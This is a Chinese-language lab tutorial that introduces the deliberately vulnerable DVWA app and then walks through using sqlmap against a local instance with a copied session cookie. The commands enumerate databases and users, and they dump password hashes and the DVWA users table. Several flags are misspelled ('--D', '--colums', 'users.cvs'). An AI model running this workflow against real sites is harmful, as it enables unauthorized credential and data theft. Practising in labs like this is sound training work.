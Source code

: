 # DVWA-Sqlmap

---

DVWA（Damn Vulnerable Web App）是一个基于PHP/MySql搭建的Web应用程序，旨在为安全专业人员测试自己的专业技能和工具提供合法的 环境，帮助Web开发者更好的理解Web应用安全防范的过程。

DVWA一共包含十个模块分别是：

1.Bruce Force //暴力破解

1.Command Injection //命令注入

1.CSRF //跨站请求伪造

1.File Inclusion //文件包含

1.File Upload //文件上传漏洞

1.Insecure CAPTCHA //不安全的验证

1.SQL Injection //sql注入

1.SQL Injection（Blind） //sql注入（盲注）

1.XSS（Reflected） //反射型XSS

1.XSS（Stored） //存储型XSS

同时每个模块的代码都有4种安全等级：Low、Medium、High、Impossible。通过从低难度到高难度的测试并参考代码变化可帮助学习者更快的理解漏洞的原理。

---
# sqlmap 

sqlmap 是一个开源渗透测试工具，它可以自动检测和利用 SQL 注入漏洞并接管数据库服务器。它具有强大的检测引擎，同时有众多功能，包括数据库指纹识别、从数据库中获取数据、访问底层文件系统以及在操作系统上带内连接执行命令。

在浏览器中输入自己的ip地址打开dvwa的主页面

选择默认安全等级

进入sql注入模块

随便提交一个数据发现网站提交数据的方式是GET,然后复制地址栏上的URL

按F12打开浏览器的开发人员工具,然后刷新页面找到刚刚那个请求,然后在请求的请求头中找到cookie,复制其中的值到记事本中

回到kali打开终端输入以下命令

root@kali:-# sqlmap -u “http://192.168.0.101/dvwa/vulnerabilities/sqli/?id= 1&Submit=Submit#” --cookie ”security=low; PHPSESSID=r9t toc0nte03r3ofacqfu6jev2" --batch --dbs

回车后可以看见该网页所有的数据库被爆了出来

查看当前数据库

root@kali:-# sqlmap -u “http://192.168.0.101/dvwa/vulnerabilities/sqli/?id= 1&Submit=Submit#” --cookie ”security=low; PHPSESSID=r9t toc0nte03r3ofacqfu6jev2" --batch --current-db

查看数据库中的用户

root@kali:-# sqlmap -u “http://192.168.0.101/dvwa/vulnerabilities/sqli/?id= 1&Submit=Submit#” --cookie ”security=low; PHPSESSID=r9t toc0nte03r3ofacqfu6jev2" --batch --users

查看用户名和密码

root@kali:-# sqlmap -u “http://192.168.0.101/dvwa/vulnerabilities/sqli/?id= 1&Submit=Submit#” --cookie ”security=low; PHPSESSID=r9t toc0nte03r3ofacqfu6jev2" --batch --users --passwords

查看某数据库中的所有表

root@kali:-# sqlmap -u “http://192.168.0.101/dvwa/vulnerabilities/sqli/?id= 1&Submit=Submit#” --cookie ”security=low; PHPSESSID=r9t toc0nte03r3ofacqfu6jev2" --batch --D dvwa --tables

查看某表中的数据

root@kali:-# sqlmap -u “http://192.168.0.101/dvwa/vulnerabilities/sqli/?id= 1&Submit=Submit#” --cookie ”security=low; PHPSESSID=r9t toc0nte03r3ofacqfu6jev2" --batch --D dvwa -T users --colums

保存到本地

root@kali:-# sqlmap -u “http://192.168.0.101/dvwa/vulnerabilities/sqli/?id= 1&Submit=Submit#” --cookie ”security=low; PHPSESSID=r9t toc0nte03r3ofacqfu6jev2" --batch --D dvwa -T users -C “user,password” --dump

查看刚刚保存的内容

root@kali:~# cat /root/.sqLmap/output/192.168.0.101/dump/dvwa/users.cvs
